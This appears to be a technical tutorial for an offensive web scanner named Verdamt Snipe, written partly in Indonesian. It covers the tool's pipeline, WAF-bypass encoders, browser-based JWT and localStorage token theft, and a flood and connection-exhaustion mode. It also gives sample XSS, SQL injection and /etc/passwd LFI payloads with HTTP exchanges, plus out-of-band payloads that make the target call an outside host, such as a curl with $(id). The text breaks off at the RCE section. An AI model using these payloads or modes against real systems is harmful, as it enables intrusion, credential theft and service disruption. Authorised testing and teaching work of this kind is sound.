








# Verdamt Snipe — Technical Tutorial

## 1. Installation & Environment

### 1.1 System Requirements

- **Python**: 3.12+
- **RAM**: 2 GB minimum, 4 GB recommended (full assault)
- **OS**: Linux (primary), macOS (compatible), Windows via WSL2
- **Disk**: 500 MB for tool + dependencies
- **Network**: Outbound HTTPS for target scanning + interactsh OOB

### 1.2 Python Environment

```bash
git clone https://github.com/<owner>/verdamt-snipe.git
cd verdamt-snipe

python3 -m venv .venv
source .venv/bin/activate

# Upgrade pip
pip install --upgrade pip

# Install dependencies
pip install -r requirements.txt

# Verify
python3 -c "import httpx, playwright, weasyprint; print('All core deps OK')"
```

**`requirements.txt` contents:**

```
httpx[http2]>=0.27.0     # HTTP/2 async client with brotli
brotli>=1.1.0            # Brotli compression support
playwright>=1.45.0       # Headless browser for SPA recon
weasyprint>=68.0         # HTML → PDF conversion
python-interactsh @ git+https://github.com/theori-io/python-interactsh.git@f5ddbdba4b5127d70504562899d2795e0d79ed9c  # OOB collab
```

### 1.3 Playwright (Optional — SPA Browser Recon)

```bash
playwright install chromium
```

Required only for `--app` and `--full` modes on JavaScript-heavy SPAs. Without it, browser recon is skipped with a clean warning; static crawling still works.

### 1.4 Go Binaries (Optional — All Have Fallbacks)

Every external tool has a built-in Python alternative. If missing, the tool prints:

```
⚠ nuclei not installed — skipping nuclei scan, tool will continue with internal engine
```

For maximum coverage, install:

```bash
# ProjectDiscovery suite
go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
go install -v github.com/projectdiscovery/httpx/v2/cmd/httpx@latest
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
go install -v github.com/projectdiscovery/katana/cmd/katana@latest

# Community
go install -v github.com/tomnomnom/waybackurls@latest
go install -v github.com/lc/gau/v2/cmd/gau@latest
go install -v github.com/hahwul/dalfox/v2@latest
```

**Fallback table:**

| Go Tool | Built-in Alternative | Quality |
|---------|---------------------|---------|
| subfinder | `SubdomainFinder()` | ~70% of subfinder coverage |
| httpx | `HTTPProber()` | ~85% accuracy |
| gau | `WaybackCollector()` | ~60% (no AlienVault/CommonCrawl) |
| waybackurls | `WaybackCollector()` | Same as above |
| katana | `DeepCrawler()` | ~75% coverage |
| nuclei | Internal `AsyncVulnEngine` | Different approach — internal fuzzing vs templates |
| dalfox | Internal XSS checks in `AsyncVulnEngine` | Comparable detection rate |

## 2. Execution Pipeline (Technical Deep Dive)

### Arsitektur Pipeline



### 2.1 Entry Point: `verd.py`

```
verd.py
├── parse_target()         → (netloc, seed_url)
├── parse_cli_headers()    → auth_headers, auth_headers2
├── parse_mode()           → mode string
├── ScopeGuard(target)     → URL scope filter
├── SessionManager()       → auth state container
├── AsyncNetworkEngine()   → shared HTTP/2 connection pool
├── run_surface_scan()     → Phase 0 (mandatory)
├── Mode dispatch          → Phase 1-3 (optional)
└── phase_verify_report()  → Phase 4-5
```

### 2.2 Phase 0: Surface Scan



**File:** `runners/surface.py` (32 lines)

```python
def run_surface_scan(target: str, seed_url: str, scope_guard):
```

**Flow:**
1. `run_subfinder(target)` or fallback `SubdomainFinder(target).run()` → `subs: List[str]`
2. `run_httpx(targets_to_probe)` or fallback `HTTPProber(subs).run()` → `services: List[Dict]`
3. `normalize_urls(urls, scope_guard=scope_guard)` → `scan_urls: List[str]`

**Service dict schema:**
```python
{
    "url": "https://admin.example.com",
    "status": 200,
    "title": "Admin Panel",
    "tech": "React, Nginx",
    "waf": ["cloudflare"],
    "headers": {...},
    "body": "...",
    "final_url": "...",
    "time": 0.342,
}
```

### 2.3 Phase 1: Recon Intel



**File:** `runners/recon_intel.py` (80 lines)

```python
async def run_recon_intel(target, services, subs, base_urls, scope_guard, async_engine, is_turbo=False):
```

**Sub-phases executed:**

| # | Module | Function | Async? | Purpose |
|---|--------|----------|--------|---------|
| 1 | gau/waybackurls | `run_gau()` / `run_waybackurls()` | No | Historical URL collection |
| 2 | Fallback | `WaybackCollector().run()` | No | Internal Wayback API |
| 3 | Takeover | `TakeoverChecker(subs).run()` | No | Subdomain takeover (CNAME, NS, etc) |
| 4 | Dorking | `GoogleDorker(target).run()` | No | Google dork queries |
| 5 | JS Scanner | `JSScanner(all_urls).run()` | No | Secret extraction (API keys, tokens, endpoints) |
| 6 | Baseline | `engine.config_checks(url)` | ✅ Yes | 9 common paths (/.env, /.git/config, /admin, etc) |
| 7 | Baseline | `engine.header_checks(url)` | ✅ Yes | Missing X-Frame-Options, CSP, X-Content-Type-Options |
| 8 | Baseline | `engine.cors_checks(url)` | ✅ Yes | Reflective CORS Origin |

### 2.4 Phase 2: App Analysis



**File:** `runners/app_analysis.py` (84 lines)

```python
async def run_app_analysis(target, seed_url, services, scan_urls, scope_guard, session_manager, auth_headers, auth_headers2=None, async_engine=None):
```

**Sub-phases:**

| # | Module | Lines | Description |
|---|--------|-------|-------------|
| 1 | `run_katana()` / `DeepCrawler(seed_url).run()` | 33-40 | BFS crawling, robots.txt + sitemap parsing |
| 2 | `BrowserRecon(seed_url, session_manager).run()` | 44-47 | **Playwright headless**: XHR intercept, JWT theft |
| 3 | `ParamExtractor(scan_urls).run()` | 52-54 | Regex-based param mining from URLs + body |
| 4 | `AsyncParamBruteforcer()` / `ParamBruteforcer()` | 56-69 | Arjun-style param bruteforce (common parameter names) |
| 5 | `DOMXSSScanner(scan_urls).run()` | 71 | Static DOM XSS sink analysis (no browser needed) |
| 6 | `APIProfiler(scan_urls).run()` | 72 | Endpoint classification, auth delta, GraphQL |
| 7 | `AuthTester(services, session_manager).run()` | 74-82 | Auth bypass probes, rate limit testing |

**BrowserRecon technical details (`modules/web/recon_crawlers/browser_recon.py`):**

```python
async def run(self) -> Dict[str, Any]:
    # 1. Launch Chromium headless
    browser = await p_api.chromium.launch(headless=True)
    
    # 2. Inject session cookies into browser context
    await context.add_cookies(cookies_to_add)
    
    # 3. Inject auth header via route intercept
    await page.route("**/*", inject_auth)
    
    # 4. Intercept XHR/Fetch for token theft
    page.on("request", self._handle_request)
    
    # 5. Navigate + wait for SPA to render
    await page.goto(self.target_url, wait_until="networkidle")
    
    # 6. Dump LocalStorage for JWT
    ls_data = await page.evaluate("() => JSON.stringify(localStorage)")
    
    # 7. Extract dynamically rendered hrefs
    links = await page.evaluate("""() => Array.from(document.querySelectorAll('a[href]')).map(a => a.href)""")
```

**SessionManager auth injection (`core/state.py`):**

```python
def inject_auth(self, url: str, headers: Dict[str, str]):
    # Inject Bearer token
    if domain in self.auth_tokens and "Authorization" not in headers:
        headers["Authorization"] = self.auth_tokens[domain]
    # Inject cookies
    if domain in self.cookies:
        headers["Cookie"] = "..."
```

The inject function is called by `AsyncNetworkEngine.ahttp_send()` before every outbound request. Nuclei also receives these tokens via `-H` flags in `vuln_assault.py:43-50`.

### 2.5 Phase 3: Vulnerability Assault



**File:** `runners/vuln_assault.py` (357 lines)

```python
async def run_vuln_assault(target, services, scan_urls, params, scope_guard,
                           session_manager, async_engine, vuln_threads=25,
                           is_turbo=False, module_flags=None, policy=None,
                           allow_post=False):
```

> **POST-gate (2026-10-05):** default `allow_post=False` (mode 3 & full) — h2-smuggling,
> stored-XSS form submit, OOB blind XXE, dan XXE re-verify hanya jalan kalau caller
> mode 4 (`--poisoning`) mengirim `allow_post=True`.

**Execution order:**

```
1. WAF risk assessment (HeuristicVulnEngine.waf_risk_test)
2. run_nuclei(targets, auth_headers, tech_tags)    ← tech-aware template selection
3. run_dalfox(urls)                                 ← XSS-specific
4. AsyncVulnEngine.scan_many(param_targets)         ← 10 check methods
5. WAFBypass.h2_smuggle_check()                     ← HTTP smuggling
6. OOBDetector(target, services, params).run()       ← Blind vulns
7. JWT / host_header / crlf / stored_xss / idor      ← web modules (focus mode: --jwt dst)
```

**Semua modul (2-7)** berjalan paralel dalam satu `asyncio.gather` dengan timeout per modul.

**AsyncVulnEngine check methods (`modules/scanners/scanner.py`):**

```python
class AsyncVulnEngine:
    _send(url) → throttled HTTP request with rate limiting + baseline
    
    xss(url, param)           → 12 payloads, 7 trigger patterns, baseline diff
    sqli(url, param)          → 10 error payloads + 2 time-based (SLEEP/WAITFOR)
    lfi(url, param)           → 10 path traversal payloads, /etc/passwd markers
    rce(url, param)           → 12 command injection payloads, uid/gid markers
    ssrf(url, param)          → Metadata + localhost probes
    ssti(url, param)          → 10 template expressions, 1337*7331 = 9801547
    xxe(url, param)           → XML external entity, /etc/passwd via XXE
    config_checks(url)        → 9 common paths (no param needed)
    header_checks(url)        → XFO/CSP/XCTO (no param needed)
    open_redirect(url, param) → evil.com redirect check
    cors_checks(url)          → Origin reflection (no param needed)
    idor_checks(url, param)   → Numeric ID mutation, body diff
```

**ParamClassifier dispatch logic (`scanner.py:124-151`):**

```python
class ParamClassifier:
    @staticmethod
    def get_checks(engine, url, param):
        if param in ("id", "user_id", "account", "num", "order"):
            checks = [engine.idor_checks, engine.sqli]
        elif url_param:   # "url", "redirect", "next", "dest", ...
            checks = [engine.ssrf, engine.open_redirect, engine.xss]
        elif file_param:  # "file", "path", "doc", "include", ...
            checks = [engine.lfi, engine.sqli]
        elif exec_param:  # "cmd", "exec", "command", "ping", ...
            checks = [engine.sqli, engine.rce, engine.ssti]
        else:
            checks = [engine.xss, engine.sqli, engine.ssti]
```

### 2.6 Phase 4-5: Verify & Report



**Verification (`modules/scanners/scanner.py`):**

```python
class VulnVerifier:
    @staticmethod
    def verify(finding: Dict, engine, session_manager=None, allow_post=True) -> bool:
        # Re-executes HTTP request with variant payload
        # Uses heuristic param detection: scans query params for
        # payload-like values (<, ', ;, ../, {{, alert(, etc)
        # Falls back to first param if no match found
        # vtype "xxe_file" = POST body → digate per mode di phase_verify_report:
        # allow_post=(mode == "poisoning") — mode lain pakai confidence tanpa request
```

**Report generation (`reports/engine.py`):**

```python
class ReportEngine:
    def _generate_html(self, for_pdf: bool = False) -> str
        # Full HTML with embedded CSS, two tabbed pages
        # PDF variant: both pages visible, print-optimized CSS
    
    def save_html(self) -> str
        # outputs/<target>_report.html
    
    def save_pdf(self) -> str
        # WeasyPrint HTML → PDF
        # outputs/<target>_report.pdf
```

### 2.7 Mode 4: Poisoning (`runners/poison/` package: state/wave/flood/orchestrator)

Orkestrasi terpisah dari pipeline Phase 0-5 di atas:

- **Phase 0** (cap 90s via `PHASE0_TIME_CAP`): WAF bypass pipeline + origin hunt, dibungkus `asyncio.wait_for`.
- **Adaptive wave loop** (`--max-time` per wave): **Block A** discovery (arjun → gather: bruteforce(ffuf) ∥ cache poison ∥ smuggling ∥ connection exhaust) → **Block B** detection (OOB + payload flood + POST body pass) → **Block C** assault (`run_vuln_assault(allow_post=True)`) → **Block D** intelligence (auto-chain, blind XSS).
- **Budget global** `ScanPolicy.charge()`: ffuf = jumlah wordlist + 10 (kalibrasi `-ac`), exhaust = 750/service, smuggle = `SMUGGLE_REQUEST_BOUND`; dalfox/nuclei **di-GATE** (`UNCOUNTED_TOOL_FLOOR=200`), bukan didebit — jumlah request mereka gak bisa diketahui sebelum jalan, jadi jangan dikarang.
- **Deadline**: `asyncio.wait_for` di wave loop → wall = Phase 0 + `--max-time` (slip terukur <1s).
- **Satu-satunya mode** dengan `allow_post=True` (POST-body injection) — lihat POST-gate di §2.5.

## 3. Rate Limiter Architecture

**File:** `core/ratelimit.py`

```python
class RateLimiter:
    def wait(self, hostname)       # Sync: time.sleep() — for recon scanner
    async def wait_async(self, hostname)  # Async: asyncio.sleep() — for VulnEngine
```

**Adaptive backoff logic:**

| Response | Action |
|----------|--------|
| 429 Too Many Requests | Double delay (up to 30s max), increment 429 counter |
| 403 + WAF body keywords | Multiply delay × 1.5 |
| 200 OK | Reduce delay × 0.9 (back to baseline) |
| 5× 429 on same host | Block host entirely (`is_blocked()`) |

**Lapisan lanjutan:**
- `core/host_ratelimit.py::is_backing_off(host)` — backoff 429/403 menahan SEMUA generator (engine, ffuf, exhaust, smuggling), bukan cuma request async.
- Mode 4 (`PoisonState` di `runners/poison/state.py`) — adaptive concurrency berbasis **latency request asli** (median 16 sample vs baseline): 2× → konfirmasi, 5× → `server_strained` + potong setengah; re-arm berjenjang (tick-2) biar gak osilasi.

## 4. WAF Bypass System

**File:** `modules/auth/bypass.py`

```python
class WAFBypass:
    @staticmethod
    def encode_xss(payload)  → hex, unicode, double URL encoding variants
    def encode_sqli(payload) → unicode, comment insertion, case variants
    def encode_lfi(payload)  → double encoding, null byte, path normalization
    def encode_rce(payload)  → hex $'\x...' format, backtick variants

class WAFBypass:
    @staticmethod
    def h2_smuggle_check(url) → CL-TE, TE-CL discrepancy detection
```

## 5. OOB Detection

**File:** `modules/extras/oob_detector.py`

```
Uses python-interactsh to create a unique subdomain per scan.
Injects payloads that cause the target to interact back:
  - Blind SSRF: http://<collab>.oastify.com/probe
  - Blind RCE: curl http://<collab>/rce_$(id)
  - Blind XXE: <!ENTITY xxe SYSTEM "http://<collab>/xxe">

Detects callbacks via interactsh poll API.
```

Mode 3/full (`allow_post=False`): task blind XXE (POST body XML) dibuang dari
antrean; blind SSRF/RCE tetap jalan via param GET.

## 6. Save/Resume System

**File:** `core/project.py`

```python
@dataclass
class ProjectState:
    target: str                          # Scan target domain
    seed_url: str                        # Full URL
    mode: str                            # recon/app/assault/full
    version: str                         # Tool version
    subs: List[str]                      # Discovered subdomains
    services: List[Dict]                 # Active HTTP services
    scan_urls: List[str]                 # Validated URLs
    findings: List[Dict]                 # Accumulated findings
    params: Dict                         # Discovered parameters
    target_wafs: List[str]               # Detected WAFs
    auth_tokens: Dict                    # SessionManager.auth_tokens
    cookies: Dict                        # SessionManager.cookies
    local_storage: Dict                  # SessionManager.local_storage
    t0: float                            # Start timestamp for duration
    phase_done_surface: bool             # Phase completion flags
    phase_done_recon: bool
    phase_done_app: bool
    phase_done_assault: bool

    def save(self) -> str                # JSON to outputs/<target>.state
    def load(path) -> ProjectState       # Load JSON state from file
```

**Save points in `verd.py`:**

```python
# After: nuclei mode, recon mode, app mode, assault mode, poisoning mode, full mode
save_project_state()  # Captures current findings + tokens + config
```

**Resume flow:**
```bash
python3 verd.py --resume outputs/target.state
```
1. Load state from JSON
2. Restore target, seed_url, mode
3. Restore SessionManager (tokens, cookies, local_storage)
4. Restore subs, services, scan_urls, findings, params
5. Skip Phase 0 (surface scan — data already in state)
6. Continue with mode dispatch using loaded data

## 7. CLI Reference

### Flags

| Flag | Type | Description |
|------|------|-------------|
| `target` | positional | domain.com or https://domain.com |
| `--recon` | flag | Recon Intel mode |
| `--app` | flag | Application Analysis mode |
| `--assault` | flag | Vulnerability Assault mode |
| `--full` | flag | Full pipeline mode |
| `--nuclei` | flag | Nuclei template scanner only |
| `--stealth` | flag | Request jitter + rotating headers |
| `--turbo` | flag | Max concurrency, no pacing |
| `--resume <file>` | value | Resume from saved state |
| `--bearer <token>` | value | Bearer auth header |
| `--bearer2 <token>` | value | Second auth context (delta testing) |
| `-H "K: V"` | value | Custom header |
| `-H2 "K: V"` | value | Second context custom header |
| `--cookie "k=v"` | value | Cookie header |
| `--cookie2 "k=v"` | value | Second context cookie |
| `--passive` | flag | Passive HTTP methods/tools only |
| `--max-requests N` | value | Target HTTP request budget |
| `--max-concurrency N` | value | Concurrent target request limit |
| `--request-timeout N` | value | Per-request timeout cap |
| `--allowed-hosts H1,H2` | value | Additional explicitly authorized hosts/IPs |
| `--allowed-ports 80,443` | value | Authorized target ports |
| `--poisoning` | flag | Mode 4 — poison/smuggle/bruteforce/flood/exhaust (satu-satunya mode yang boleh POST-body) |
| `--recon-light` | flag | Light recon mode |
| `--max-time N` | value | Wave/deadline budget untuk poisoning mode |
| `--dry-run` | flag | Validasi policy + mutasi payload tanpa kirim request |
| `--audit-log <file>` | value | Structured audit log `.jsonl` |
| — (pasca-scan) | — | Replay: `python3 -m core.audit outputs/audit_<target>.jsonl -q <kata>` → curl per request; `--responses` → status/latency tiap dispatch |
| `--proxy <url>` | value | Proxy egress (OPSEC); `--proxy-list <f>`, `--proxy-rotate` |
| `--impersonate <t>` | value | TLS fingerprint target (chrome/safari/firefox/…) |
| `--setup-wordlists` | flag | Unduh wordlist resmi (dirs/params/auth) |
| `--force` | flag | Lewati safety prompt |
| `--jwt --stored-xss --idor --crlf --host-inject` | flag | Module focus (mode 3; scanner generik ikut OFF) |
| `--bearer-file / --cookie-file` (+`-2`) | value | Secret dari file/env — aman dari `ps`/history |
| `--help` / `--version` | flag | Bantuan / versi |

### Exit Codes

| Code | Meaning |
|------|---------|
| 0 | Success (or no findings) |
| 1 | Argument error |
| 2 | Invalid target |
| 130 | Keyboard interrupt |

## 8. Output Schema

### Finding dict structure:

```python
{
    "type": "reflected_xss",          # Vuln type identifier
    "title": "Reflected XSS",         # Human-readable title
    "url": "https://target/page?q=<script>...",  # Vulnerable URL (truncated to 200 chars)
    "detail": "Param: q, Trigger: alert\(1\)",    # Evidence details
    "waf": "cloudflare",              # WAF detected at time of finding
    "time": 0.342,                    # Response time
    "status": 200,                    # HTTP status code
    "confidence": "suspected",        # suspected → confirmed after verification
    "cvss_score": 6.1,               # CVSS 3.1 score
    "cvss_severity": "Medium",        # Critical/High/Medium/Low/Info
    "cvss_vector": "CVSS:3.1/AV:N/...",  # CVSS vector string
}
```

### Report files:

```
outputs/
├── target.com_report.html     ← Interactive (JS tabs, CSS animations)
├── target.com_report.pdf      ← Print-ready (A4, stacked layout, no JS)
└── target.com.state           ← JSON state (save/resume only)
```

## 9. Common Debugging

### Scan too slow?
```bash
# Check if rate limiting is too aggressive
python3 -c "from core.ratelimit import RateLimiter; rl=RateLimiter(per_host_delay=0.1); print('delay:', rl._host_delay)"
# Or use --turbo
python3 verd.py target.com --assault --turbo
```

### No findings from internal fuzzer?
```bash
# Parameters weren't discovered — run app analysis first
python3 verd.py target.com --app
# Then assault with discovered params
python3 verd.py target.com --assault
```

### Playwright errors?
```bash
# Check browser installation
playwright install chromium --force
# Or skip entirely — tool continues without it
```

### WeasyPrint PDF errors?
```bash
# Verify installation
python3 -c "from weasyprint import HTML; HTML(string='<h1>test</h1>').write_pdf('/tmp/test.pdf'); print('OK')"
```

## 10. Attack Surface Examples

Bagian ini menyajikan contoh konkret untuk setiap jenis kerentanan utama yang dideteksi oleh engine scanning internal Verdamt-Snipe (`AsyncVulnEngine`, browser modules, dan bypass engine).

### 10.1 Reflected XSS

Reflected Cross-Site Scripting terjadi saat parameter input pengguna dipantulkan langsung ke dalam HTTP response body tanpa sanitasi atau encoding kontekstual.

- **Payload Contoh:**
  ```html
  <script>alert(1)</script>
  "><svg/onload=confirm(document.domain)>
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /search?q=%22%3E%3Csvg%2Fonload%3Dconfirm(document.domain)%3E HTTP/1.1
  Host: target.com
  User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
  ```
- **Cuplikan HTTP Response:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/html; charset=UTF-8
  Content-Length: 1420

  <html>
    <body>
      <h1>Hasil Pencarian untuk: "><svg/onload=confirm(document.domain)></h1>
    </body>
  </html>
  ```
- **Penjelasan Logika Deteksi:**
  Engine mengirimkan baseline request tanpa payload, lalu menyuntikkan 12 varian payload kontekstual. Deteksi melakukan pencocokan regex terhadap 7 pola pemicu (trigger pattern) seperti `alert\(1\)`, `confirm\(`, atau tag SVG yang tidak terfilter. Jika pola ditemukan di response dan tidak ada dalam response baseline (baseline diff), temuan ditandai sebagai `reflected_xss` dengan status `suspected`.

---

### 10.2 SQL Injection (Error-based & Time-based)

Verdamt-Snipe mendeteksi SQL injection melalui anomali sintaksis database maupun penundaan eksekusi waktu (time delays).

#### A. Error-based SQLi
- **Payload Contoh:**
  ```sql
  ' OR 1=1-- -
  ' UNION SELECT NULL,version(),NULL-- -
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /products?id=1%27+OR+1%3D1--+- HTTP/1.1
  Host: target.com
  ```
- **Cuplikan HTTP Response:**
  ```http
  HTTP/1.1 500 Internal Server Error
  Content-Type: text/html

  Fatal error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' OR 1=1-- -' at line 1
  ```
- **Logika Deteksi:**
  Scanner membandingkan respons terhadap database error signatures yang mencakup MySQL, PostgreSQL, Oracle, SQLite, dan Microsoft SQL Server (misalnya `SQL syntax.*MySQL`, `pg_query\(\)`, `ORA-01756`, `unclosed quotation mark`).

#### B. Time-based Blind SQLi
- **Payload Contoh:**
  ```sql
  1' AND (SELECT 1 FROM (SELECT(SLEEP(5)))a)-- -
  1'; WAITFOR DELAY '0:0:5'-- -
  1' AND pg_sleep(5)-- -
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /profile?user_id=105%27+AND+(SELECT+1+FROM+(SELECT(SLEEP(5)))a)--+- HTTP/1.1
  Host: target.com
  ```
- **Cuplikan HTTP Response:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: application/json
  X-Response-Time: 5.142s

  {"status": "ok", "user": "alice"}
  ```
- **Logika Deteksi:**
  Engine mengukur baseline round-trip time ($T_{base}$). Jika request injeksi tidur selama delay target $T_{sleep}$ (misal 5 detik) dan respons kembali dalam rentang $T_{base} + T_{sleep} \pm \epsilon$ secara konsisten tanpa anomali network, temuan ditandai sebagai `time_based_sqli`.

---

### 10.3 Local File Inclusion (LFI)

LFI memungkinkan penyerang membaca file internal sistem operasi melalui manipulasi path parameter pada server.

- **Payload Contoh:**
  ```text
  ../../../../etc/passwd
  ..%252f..%252f..%252fetc%252fpasswd
  /proc/self/environ
  ```
- **Cuplikan HTTP Request:**
  ```http
  GET /view?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
  Host: target.com
  ```
- **Cuplikan HTTP Response:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: text/plain

  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  ```
- **Marker yang Diharapkan:**
  Engine mencocokkan signature pola Unix account seperti `root:.*:0:0:` atau marker Windows seperti `\[extensions\]` pada `win.ini`. `WAFBypass.encode_lfi()` diterapkan bila terdeteksi WAF untuk menguji bypass null-byte atau double-URL encoding.

---

### 10.4 Remote Code Execution (RCE)

Remote Code Execution mengeksploitasi konkatenasi perintah shell yang tidak aman pada back-end sistem.

- **Payload Contoh:**
